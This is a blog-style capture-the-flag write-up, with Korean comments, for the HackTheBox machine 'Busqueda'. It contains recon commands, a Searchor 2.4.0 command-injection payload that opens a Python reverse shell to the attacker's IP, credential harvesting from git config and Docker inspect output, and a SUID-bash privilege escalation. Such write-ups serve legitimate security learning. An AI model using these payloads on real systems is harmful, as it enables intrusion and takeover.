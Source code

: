 ```yaml
---
layout: post
title: HackTheBox Busqueda
subtitle: Busqueda WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-21-Busqueda/a73dbffe4ae24d783de043ae29185d39_MD5.jpeg)
## Target - 10.129.228.217
### Nmap
```bash
nmap -sC -sV -Pn -p- -oN Busqueda 10.129.228.217
```
![](/assets/images/posts/2025-03-21-Busqueda/b3817d553dd4d22d16cf8b0efa0f03c2_MD5.jpeg)
### WEB
```bash
# host 등록
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts

# dir fuzz
gobuster dir -u searcher.htb -w /usr/share/wordlists/dirb/common.txt

# subdomain fuzz
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fc 302

# opensource version
searchor 2.4.0
```
![](/assets/images/posts/2025-03-21-Busqueda/ae88064ccb2df41d3a185b7b1dd63698_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/d527baf6f626258ec6a5aefbdfb75d0f_MD5.jpeg)

### Searchor 2.4.0 Exploit
```bash
# https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
'),exec('import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')#
```
![](/assets/images/posts/2025-03-21-Busqueda/116033061580fae80a50f281c20e5c3c_MD5.jpeg)

### Privilege Escalator
```bash
# upgrade tty
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 숨김 파일 찾기 
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep svc

# cody == svc
cat /home/svc/.gitconfig

# web group 파일들 찾기
find / -group www-data -exec ls -ldb {} \; 2>/dev/null

# git config 열람
cat /var/www/app/.git/config

# svc : jh1usoih2bkjaspwe92
sudo -l
sudo /usr/bin/python3 /opt/scripts/system-checkup.py -h

# docker inspect : https://docs.docker.com/engine/cli/formatting/
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq .

# mysql connect gitea : yuiu1hoiu4i5ho1uh
mysql -u gitea -pyuiu1hoiu4i5ho1uh -h 172.19.0.3 gitea

## in mysql
select name, email, passwd from user;

# in web
## administrator : yuiu1hoiu4i5ho1uh / 재사용 되는 지 확인
echo "10.129.228.217 gitea.searcher.htb" | sudo tee -a /etc/hosts
http://gitea.searcher.htb/cody/Searcher_site.git

# full-checkup 로직 확인 및 Abuse
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/g3rm\nchmod 4777 /tmp/g3rm' > full-checkup.sh
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup

# -p 옵션이 있어야 권한이 안사라짐
/tmp/g3rm -p
```

```sh
#!/bin/bash 
cp /bin/bash /tmp/g3rm 
chmod 4777 /tmp/g3rm
```
![](/assets/images/posts/2025-03-21-Busqueda/9fbef62124fd4ea70270d25a9e5c24cf_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/19944986f62535d922b99895ec6831b6_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/83b4b2d1100c52bec7b0a8012af85436_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/04811c4fabbd651f3e83a6235188d013_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/664165d9e5013cf703cb01bb113f3af9_MD5.jpeg)![](/assets/images/posts/2025-03-21-Busqueda/1ea6a57afc343c3fef42ed16746a7e30_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/9d0cfd2413ed62917f246c9ddb5ec3b6_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/5e3b73d1e6163d460302eb52671092d4_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/65ff7bcd2b912a2a00de613dc6410d87_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/9429e95a836018be908e461439bff6b7_MD5.jpeg)![](/assets/images/posts/2025-03-21-Busqueda/489bc426f4f2e98d390eadad6483fc11_MD5.jpeg)

## End
![](assets/images/posts/2025-03-21-Busqueda/98bfc8792c38ec2223249bd257867eb3_MD5.jpeg)